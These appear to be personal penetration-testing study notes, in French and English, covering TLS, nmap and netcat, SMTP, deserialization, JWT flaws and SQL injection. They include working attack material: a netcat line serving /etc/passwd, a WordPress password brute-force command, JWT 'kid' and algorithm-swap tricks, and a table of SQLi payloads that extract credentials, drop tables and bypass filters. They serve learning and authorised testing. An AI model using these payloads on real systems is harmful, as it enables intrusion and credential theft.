<li><strong>Decompression_failure – indique que la fonction de décompression a reçu une mauvaise entrée</strong>
<ul>

<li><strong>Handshake_failure – impossible de négocier les bons paramètres</strong>
<ul>

<li><strong>Illegal_parameter – indique un champ mal formaté ou ne correspondant à rien.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Close_notify – annonce la fin d’une connexion</strong>
<ul>

<li><strong>No_certificate – répond une demande de certificat s’il n’y en a pas</strong>
<ul>

<li><strong>Bad_certificate – le certificat reçu n’est pas bon (par exemple, sa signature n’est pas valide)</strong>
<ul>

<li><strong>Unsupported_certificate – le certificat reçu n’est pas reconnu</strong>
<ul>

<li><strong>Certificate_revoked – certificat révoqué par l’émetteur</strong>
<ul>

<li><strong>Certificate_expired – certificat expiré</strong>
<ul>

<li><strong>Certificate_unknown – pour tout </strong>
<strong>        problème concernant les</strong>
<p>
<strong>        certificats et non listé </strong>
<p>
<strong>        ci-dessus.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
</table>


<p id="gdcalert21" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image21.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert22">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Ephemeral Diffie-Hellman (DHE in the context of TLS) differs from the static Diffie-Hellman (DH) in the way that static Diffie-Hellman key exchanges also always use the same Diffie-Hellman private keys. So, each time the same parties do a DH key exchange, they end up with the same shared secret.**

**Within TLS you will often use DHE as part of a key-exchange that uses an additional authentication mechanism (e.g. RSA, PSK or ECDSA).**

**So the fact that the TLS server signs the content of its server key exchange message that contains the ephemeral public key implies to the SSL client that this Diffie-Hellman public key is from the SSL server.**


    * **In most cases, the best way to protect yourself against SSL/TLS-related attacks is to disable older protocol versions.**
* **What are the advantages of using the latest TLS version?**

            **In a nutshell, TLS 1.3 is faster and more secure than TLS 1.2. **


            **One of the changes that makes TLS 1.3 faster is an update to the way a TLS handshake works.**


            **Many of the major vulnerabilities in TLS 1.2 had to do with older cryptographic algorithms that were still supported. **


            **TLS 1.3 drops support for these vulnerable cryptographic algorithms, and as a result it is less vulnerable to cyber attacks.**


**some useful command**


<table>
  <tr>
   <td><strong>tcpdump -i eth0 udp port 53</strong>
   </td>
   <td><strong>Sniffer les packet UDP vers le port 53 sur l’interface eth0 </strong>
   </td>
  </tr>
  <tr>
   <td><strong>sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0 -</strong>
   </td>
   <td><strong>Run your own server WEB with TLS support ( with certificate )</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **Protocole IPsec :**
    * 
* **…**
* **…**
* **…**
* **...**

**				   Some Nmap commands**


<table>
  <tr>
   <td><strong>nmap -sn [TARGET]</strong>
   </td>
   <td><strong>Launch a ping scan against a network segment</strong>
<p>
<strong>Ping scans in Nmap may also identify MAC addresses and vendors if executed as a privileged user on local Ethernet networks.</strong>
<p>
<strong>Can be used to find hosts on the same network.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -A [TARGET]</strong>
   </td>
   <td><strong>Aggressive mode :</strong>
<p>
<strong>This mode sends a lot more probes, and it is more likely to be detected, but provides a lot of valuable host information.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -p- [TARGET]</strong>
   </td>
   <td><strong>scan all ports</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -sU</strong>
   </td>
   <td><strong>UDP scan</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -Pn</strong>
   </td>
   <td><strong>Treat all hosts as online -- skip host discovery.</strong>
<p>
<strong>This option will force the scanning even if it has detected the target as down in host discovery</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -sV</strong>
   </td>
   <td><strong>application version information</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **It used for :**
    * **1) Network mapping & host discovery**
    * **2) Port Scanning**
    * **3) OS detection**
    * **4) Service Version Detection**
    * **5) Service Enumeration**
    * **6) Firewall Detection & Evasion**
* 

**Some Netcat Commands**


<table>
  <tr>
   <td><strong>nc exemple.local 10222</strong>
   </td>
   <td><strong>Se connecter sur le serveur exemple.local au port 10222 </strong>
   </td>
  </tr>
  <tr>
   <td><strong>nc -l 10222</strong>
   </td>
   <td><strong>Écouter un port sur notre installation</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nc -l 192.168.0.2 10222</strong>
   </td>
   <td><strong>Écouter un port sur notre installation sur l’interface précisée.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>netcat -c 'cat /etc/passwd' -l -p 1234</strong>
   </td>
   <td><strong>-c : specify  shell  commands  to  exec after someone connect to us</strong>
<p>
<strong>-p : port number for listening</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**Some useful tools and commands ( pas que réseau )**


<table>
  <tr>
   <td><strong>netdiscover</strong>
<p>
<strong>arp-scan --localnet</strong>
   </td>
   <td><strong>Découvre toutes les hosts dans un même réseau.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>wpscan --url “[URL]” --enumerate</strong>
   </td>
   <td><strong>Trouver des vulnérabilité si il y a Wordpress utiliser</strong>
   </td>
  </tr>
  <tr>
   <td><strong>wpscan --url “[URL]” -U [USER_NAME] -P [WORDLIST]</strong>
   </td>
   <td><strong>Bruteforcer le mdp d’un user sur wordpress</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cewl</strong>
<p>
<strong>cewl “[URL]” > cewl3.txt</strong>
   </td>
   <td><strong>CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper</strong>
   </td>
  </tr>
  <tr>
   <td><strong>weplab</strong>
   </td>
   <td><strong>tools to analyse WEP protocol et crack WEP key in pcap.file</strong>
   </td>
  </tr>
</table>


**					Some protocols**


<table>
  <tr>
   <td><strong>SMTP, POP3, Internet Message Access Protocol (IMAP)</strong>
   </td>
   <td><strong>protocoles liées au mail</strong>
   </td>
  </tr>
  <tr>
   <td><strong>NFS</strong>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **Connecting with telnet ( instead SSH ) is insecure as anyone who can see the traffic, or access a packet capture of the connection is able to see the username and password used as well as all the commands that the user executed.**


<p id="gdcalert22" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image22.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert23">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert23" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image23.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert24">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**	**


    **-------------------------------------------------------------**


    **Dans les algorithmes de chiffrement par flot, une suite d’octets ou de bits est produite à partir de la clé. **


    **Cette suite est combinée ( avec un XOR ou autre ) aux octets du clair pour donner les octets du chiffré.**


* **Protocol SMTP**

        **	SMTP signifie Simple Message Transfer Protocole, ce protocole est utilisé pour transférer les messages électroniques sur les réseaux.**


        **Son Port est 25. Il fait partie de la couche Application.**


        **Son principal objectif est de router les mails à partir de l'adresse du destinataire.**


        **Fonctionnement avec un exemple :**


<p id="gdcalert24" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image24.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert25">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert25" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image25.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert26">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





    **Sur internet, les MTA communiquent entre-eux grâce au protocole SMTP et sont logiquement appelés serveurs SMTP (parfois serveur de courrier sortant).**


    **Il existe deux principaux protocoles permettant de relever le courrier sur un MDA : POP3 et IMAP.**


    

<p id="gdcalert26" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image26.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert27">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





    **Pour éviter que chacun puisse consulter le courrier des autres utilisateurs, l'accès au MDA est protégé par un nom d'utilisateur et un mot de passe. **


    **Les serveurs utilisent les enregistrements MX des serveurs DNS pour acheminer le courrier.**


    **Par défaut et pour des raisons historiques, il n'est pas nécessaire de s'authentifier pour envoyer du courrier électronique, ce qui signifie qu'il est très facile d'envoyer du courrier en falsifiant l'adresse électronique de l'expéditeur. **

**	**


        **Exemple session SMTP avec telnet :**


<p id="gdcalert27" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image27.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert28">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**Un série de codes retour sur trois chiffres est présente pour indiquer le statut de la demande.**

**Le premier chiffre du code retour indique le statut global de la demande, les deux autres chiffres donnent le détail du statut :**

**    code 2 : la demande a été exécutée sans erreur ;**

**    code 3 : la demande est en cours d'exécution ;**

**    code 4 : indique une erreur temporaire ;**

**    code 5 : la demande n'est pas valide et n'a pas pu être traitée.**


<p id="gdcalert28" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image28.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert29">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Port Knocking

        **Le tocage à la porte, ou port-knocking, est une méthode permettant de modifier le comportement d'un pare-feu (firewall) en temps réel en provoquant l'ouverture de ports permettant la communication, grâce au lancement préalable d'une suite de connexions sur des ports distincts dans le bon ordre, à l'instar d'un code frappé à une porte. **


        **Cette technique est notamment utilisée pour protéger l'accès au port 22 dédié au Secure shell (SSH) ; elle ne nécessite pas beaucoup de ressources et reste facile à mettre en œuvre. **


        **La méthode de port-knocking est considérée comme sécurisée étant donné qu'elle est située à un niveau bas des couches TCP/IP et qu'elle ne requière pas de port ouvert (le service knockd est lui aussi invisible).**


        **Dans linux, parfois la configuration de cette feature peut se situer dans le fichier /etc/knockd.conf.**

* Network File System (NFS)

**Network File System (NFS), ou système de fichiers en réseau, est une application client/serveur qui permet à un utilisateur de consulter et, éventuellement, de stocker et de mettre à jour des fichiers sur un ordinateur distant, comme s'ils étaient sur son propre ordinateur.**


5.  Web
* (Se/Deser)-ialisation

### 
            		   Some tools


<table>
  <tr>
   <td>
<strong>ysoserial</strong>
   </td>
   <td><strong>A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>PHP Generic Gadget Chains</strong>
   </td>
   <td><strong>Like <em>ysoserial</em> for PHP</strong>
   </td>
  </tr>
</table>


* **Generally speaking, deserialization of user input should be avoided unless absolutely necessary. The high severity of exploits that it potentially enables, and the difficulty in protecting against them, outweigh the benefits in many cases. **

    **If possible, you should avoid using generic deserialization features altogether.**

* Identify insecure deserialization :

                **	During auditing, you should look at all data being passed into the website and try to identify anythin that looks**


            **like serialized data.**


            **Once you identify serialized data, you can test** **whether **


            **you are able to control it. **


            **In Java, if you have source code access, take note of**


            **any code that uses the readObject() method, which is **


            **used to read and deserialize data from an InputStream. **

* **In some cases of deserialization exploit, you can modify data types in the serialized data to take advantage of an existing loose comparaison in the code ( on password verification, …) .**
* **En python, c’est la bibliothèque Pickle qui est utilisée pour la seria/deserialisation ( en format Pickle ).**

                **If an application unserializes data using pickle based on a string under your control, you can execute code in the application. **


                **Objet de type Pickle :**


                **(i__main__**


                **Hack**


                **(dp1**


                **S'test1'**


                **p2**


                **S'test'**


                **p3**


                **sS'test2'**


                **p4**


                **S'retest'**


                **p5**


                **sb.**

* Magic methods

                **Magic methods ( like ___construct()_, ___wakeup()_ ) can become dangerous when the code that they execute handles attacker-controllable data, for example, from a deserialized object.**


                **Therefore, if an attacker can manipulate which class of object is being passed in as serialized data, they can influence what code is executed after ( which magic method of a certain class ).**

* Gadget Chains :

**				**


                    **In the wild, many insecure deserialization vulnerabilities will only be exploitable through the use of gadget chains.**


                    **Manually identifying gadget chains can be a fairly arduous process. Fortunately, there are a few options for working with pre-built gadget chains that you can try first. **


                    **There are several tools available that can help. These tools provide a range of pre-discovered gadget chains that have been exploited on other websites.**


                    **It is important to note that it is not the presence of a gadget chain in the website's code, or any of its libraries, that is responsible for the vulnerability. **


                    **Even if there is no dedicated tool for automatically generating the serialized object, you can still find documented gadget chains for popular frameworks and adapt them manually.**


* **Serialized Java objects will always start with : aced00057372.**

            ** **

* **XMLDecoder is a Java class that creates objects based on a XML message. If a malicious user can get an application to use arbitrary data in a call to the method readObject, she will instantly gain code execution on the server.**

                **See : [https://pentesterlab.com/exercises/xmldecoder/course](https://pentesterlab.com/exercises/xmldecoder/course)**

* **The string rO0 ( in base64 ) at the beginning of the string is a good indicator to recognize serialized Java objects. **
* **To avoid exploitation, you can use JSON object ( encode/decode in json format ) instead of serialized object.**
* JWT (JSON Web Token)

            ** **

    * **Vérifier que le header du Jeton ( dans le header ) contient le bon algorithme ( il peut être par exemple à “none”,”None” ou “NONE” pour que la signature n’est pas pris en compte).**
* **”jwt_tool” est un outil permettant de bruteforcer une clée sur un JWT.**
* **Si le token utilise RS256 ( RSA ) , une faille consiste à changer RS256 en HS256 et utiliser une des clefs publiques qui était utilisée pour RSA comme secret.**
* **Utiliser une bonne fonction de décodage selon la librairie utilisée pour que la signature soit vérifiée ( si on utilise une mauvaise fonction pour décoder le jwt, il se peut que la signature n’est pas vérifiée et donc qu’un attaquant peut mettre ce qu’il veut en tant que data ).**
* **Sometimes, there is a “Kid” parameter :**
* 

<p id="gdcalert29" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image29.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert30">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**				Often used to retrieve a key from database or file **


            **system.**


            **This is done prior to verification of the signature.**


                **If this parameter is injectable, you can tell the serveur to use the provided file (from its own system directory) as the key for the signature. **


                **So you can retrieve a known file from the serveur ( it depends on the OS) and construct the signature with it and then tell the serveur ( from the kid parameter ) that the content of this file is the key to verify the token.**


                **Example :**


                

<p id="gdcalert30" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image30.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert31">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





                **Here, we know the content of /dev/null (it’s an empty file). So, we can easily reconstruct a valid signature.**


                **In the case that a database is used, you can try an SQL injection from the parameter because its value is put in a sql request.**


                **A signed JWT is known as a JWS (JSON Web Signature). In fact a JWT does not exist itself — either it has to be a JWS or a JWE (JSON Web Encryption). It's like an abstract class — the JWS and JWE are concrete implementations.				**


* SQL injection :
* **CheatSheet SQL injection : [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) **
    * étapes dans une SQLi Union :
        * **Chercher le nombre de colonne ( pour le UNION )**
        * **Chercher le type des colonnes**
        * **Chercher le type de database ( pour connaître la syntaxe)**
        * **Sortir la liste de toutes les tables présentes ( leurs noms )**
        * **Chercher le détail du format des tables ( les colonnes )**
        * **Afficher leurs contenus ( étape simple )**
    * Potentielles étapes pour une BSQLi :
        * **Trouver la taille du champs voulu.**
        * **Bruteforcer chaque caractère.**
* Exemples de payloads

<table>
  <tr>
   <td>
<strong>‘ OR 1=1 AND ’username’='admin' /*</strong>
   </td>
   <td>
<ul>

<li><strong>L'opération AND vient en premier</strong>
<ul>

<li><strong>“ /* “ ou “ --” ou “#” : commentaire pour fermer la suite</strong>
<ul>

<li><strong>On MySQL, the double-dash sequence</strong>
    <strong>( “--” ) must be followed by a space</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>SELECT * FROM table LIMIT 5, 10;</strong>
   </td>
   <td><strong>Cette requête retourne les enregistrements 6 à 15 d’une table. Le premier nombre est l’OFFSET tandis que le suivant est la limite.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>‘ UNION SELECT 1,2,3-- ( </strong>
<p>
<strong>TESTER PLUSIEURS ENCHAÎNEMENT DE CHIFFRE SUR SELECT 1,1,1,1…..</strong>
<p>
<strong>OU</strong>
<p>
<strong>‘ UNION SELECT NULL,NULL,NULL--</strong>
<p>
<strong>OU</strong>
<p>
<strong>’Order by 3#</strong>
<p>
<strong>OU</strong>
<p>
<strong>‘ UNION SELECT NULL,NULL,NULL FROM DUAL -- ( Pour ORACLE DB )</strong>
   </td>
   <td><strong>Tester si il y a 3 colonnes (selon le nombre de chiffres écrits pour le UNION).</strong>
<p>
<strong>The reason for using NULL as the values returned from the injected SELECT query is that the data types in each column must be compatible between the original and the injected queries. Since NULL is convertible to every commonly used data type, using NULL maximizes the chance that the payload will succeed when the column count is correct.    </strong>
<p>
<strong>Obligé de rajouter un FROM sur un SELECT sur des base de donnée ORACLE</strong>
<p>
<strong>             </strong>
   </td>
  </tr>
  <tr>
   <td><strong>UNION ALL SELECT 1,2,3,4,5,6,load_file('FILE_NAME')</strong>
   </td>
   <td><strong>Print the content of “index.php” as the first </strong>
<p>
<strong>column </strong>
   </td>
  </tr>
  <tr>
   <td><strong>' UNION SELECT username, password FROM users--</strong>
   </td>
   <td><strong>Si le SELECT de base est composé de 2 colonnes et qu’on connaît le noms des tables, il est possible de récupérer des données si elles sont affichées sur la page comme dans cette exemple.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>' UNION SELECT username || '~' || password FROM users-- </strong>
<p>
<strong>1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;</strong>
<p>
<strong>SELECT login + '-' + password FROM members</strong>
   </td>
   <td><strong>Suppose instead that the basic query only returns a single column.</strong>
<p>
<strong>You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. </strong>
<p>
<strong>This uses the double-pipe sequence || which is a string concatenation operator on Oracle and MySQL ( in particular configuration ). The injected query concatenates together the values of the username and password fields, separated by the ~ character.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>1 UNION SELECT 1,@@version,3,4</strong>
<p>
<strong>1 UNION SELECT 1,database(),3,4</strong>
<p>
<strong>1 UNION SELECT 1,current_user(),3,4</strong>
   </td>
   <td><strong>Version de la database</strong>
<p>
<strong>Nom de la database</strong>
<p>
<strong>Nom du current user</strong>
   </td>
  </tr>
  <tr>
   <td><strong>UNION SELECT NULL, NULL, NULL, cast(password as numeric),</strong>
   </td>
   <td><strong>méthode cast() à utiliser pour régler le problème des types des colonnes.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-1 OR (SELECT SLEEP(3) FROM users WHERE id=1 AND 1=1)</strong>
   </td>
   <td><strong>Time blind sql : Permet de voir si l’entré est vulnérable à une time blind sql.</strong>
<p>
<strong>You can also use pg_sleep(10) ( PostgreSQL)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>?id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'</strong>
<p>
<strong>--</strong>
   </td>
   <td><strong>Time based sql to test size of data</strong>
   </td>
  </tr>
  <tr>
   <td><strong> </strong>
<p>
<strong>IF (ASCII(lower(substring((USER),1,1)))></strong>
<p>
<strong>97) WAITFOR DELAY '00:00:10'</strong>
   </td>
   <td><strong>Time based sql to find each character of the user USER</strong>
<p>
<strong>MySQL Syntax:</strong>
<p>


<p id="gdcalert31" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image31.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert32">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




<p>
<strong>SQL Server Syntax: </strong>
<p>


<p id="gdcalert32" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image32.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert33">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




<p>
<strong>Oracle Syntax:</strong>
<p>


<p id="gdcalert33" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image33.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert34">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




<p>
<strong>PostgreSQL syntax : </strong>
<p>


<p id="gdcalert34" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image34.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert35">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




   </td>
  </tr>
  <tr>
   <td><strong>/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/**/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'tom'-- </strong>
   </td>
   <td><strong>You can use sql inline comments sequences to rewrite word </strong>
   </td>
  </tr>
  <tr>
   <td><strong>/*! MYSQL Special SQL */ </strong>
   </td>
   <td><strong>This is a special comment syntax for MySQL. It's perfect for detecting MySQL version. If you put a code into this comment it's going to execute in MySQL only.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SELECT /*!32302 1/0, */ 1 FROM tablename</strong>
   </td>
   <td><strong>Will throw an division by 0 error if MySQL version is higher than3.23.02</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SELECT * FROM members; DROP members--</strong>
   </td>
   <td><strong>Executing more than one query in one transaction ( Stacking Queries ).</strong>
<p>


<p id="gdcalert35" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image35.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert36">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




   </td>
  </tr>
  <tr>
   <td><strong>0xHEXNUMBER</strong>
<p>
<strong>SELECT CHAR(0x66)</strong>
<p>
<strong>SELECT 0x5045 ( this is a string )</strong>
<p>
<strong>SELECT 0x50 + 0x45 ( this is a integer )</strong>
   </td>
   <td><strong>Very useful for bypassing, magic_quotes() and similar filters, or even WAFs.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))</strong>
<p>
<strong>SELECT CHAR(75)+CHAR(76)+CHAR(77)</strong>
<p>
<strong>SELECT CHR(75)||CHR(76)||CHR(77)</strong>
<p>
<strong>SELECT (CHaR(75)||CHaR(76)||CHaR(77))</strong>
   </td>
   <td><strong>This will return 'KLM'.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SELECT ASCII('abbas')</strong>
   </td>
   <td><strong>this returns the ASCII number of the first character ( ‘a’ => 97 ).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>BENCHMARK(howmanytimes, do this)</strong>
   </td>
   <td><strong>function Syntax on benchmark.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SELECT MID("SQL Tutorial", 5, 3) AS ExtractString;</strong>
   </td>
   <td><strong>Extract a substring from a string ( in this example : start at position 5, extract 3 characters):</strong>
<p>
<strong>same function ; SUBSTR() and SUBSTRINGS()</strong>
   </td>
  </tr>
  <tr>
   <td><strong>1' AND (SELECT LENGTH(database()))=1#</strong>
   </td>
   <td><strong>Using LENGTH() ( LEN(),DATALENGTH() ) function is possible to know the length of a string in a SQL query.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ASCII('a')</strong>
<p>
<strong>Return: 97</strong>
   </td>
   <td><strong>ASCII() - returns the ASCII value from a character</strong>
   </td>
  </tr>
  <tr>
   <td><strong>xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users--</strong>
   </td>
   <td><strong>Blind error based SQLi pour chercher les caractères du password de l’admin</strong>
   </td>
  </tr>
  <tr>
   <td><strong>to_char(1/5)</strong>
   </td>
   <td><strong>convertir en chaine de caractere</strong>
   </td>
  </tr>
  <tr>
   <td><strong>LIMIT</strong>
   </td>
   <td><strong>if the developer checked that only one result is return by the database.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>admin’%09or%”091%09=%091%09--</strong>
   </td>
   <td><strong>%09 = tabulation</strong>
<p>
<strong>You can use tabulation instead of spaces if it’s filtered</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **For blind SQL , sometimes you have to modify the query so that it will cause a database error if the condition is true, but not if the condition is false.**

**	example : xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--**


* **It’s good to use UNION with ALL.**
* LDAP injection


